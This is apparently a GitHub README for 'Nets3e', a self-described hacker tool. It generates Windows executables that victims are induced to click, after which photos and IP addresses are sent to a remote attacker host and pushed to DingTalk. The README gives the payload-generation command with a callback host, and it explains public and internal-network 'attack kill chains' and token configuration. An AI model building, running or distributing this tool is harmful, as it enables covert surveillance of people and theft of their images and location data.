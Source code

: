   <div align="center">
<p align="center">
 <img title="Nets3e" src='https://img.shields.io/badge/Nets3e-1.1.3-brightgreen.svg' />
 <img title="Nets3e" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="Nets3e" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="Nets3e" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="Nets3e" src='https://img.shields.io/badge/-windows-F16061?logo=windows&logoColor=000'/>
 </p>
  <img height="137px" src="https://github-readme-stats.vercel.app/api?username=MartinXMax&hide_title=true&hide_border=true&show_icons=trueline_height=21&text_color=000&icon_color=000&bg_color=0,ea6161,ffc64d,fffc4d,52fa5a&theme=graywhite" />
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Fixed the issue where the victim was unable to access the public IP address[NEW]</th>
    <th>Share data with DingTalk [NEW]</th>

</tr>
 
 </table>
</div>


  
## Nets3e Example

``pip install -i https://pypi.tuna.tsinghua.edu.cn/simple pycryptodome,Pillow``

``#python3 Nets3e.py -h``

![图片名称](./PT/help.png) 



```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``


![图片名称](./PT/1.png) 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

![图片名称](./PT/2.png) 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``




![图片名称](./PT/out.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Re.png) 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``



![图片名称](./PT/in.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Debug.png) 


# Configure the API for victims to obtain public IP addresses, and configure nail push TOKEN and keys

![图片名称](./PT/config.png) 


## Push using (- dd) after configuration

``#python3 Nets3e.py -dd ``

![图片名称](./PT/dd1.png) 

```Victims click on the app```


![图片名称](./PT/getip.png) 

![图片名称](./PT/ip.png) 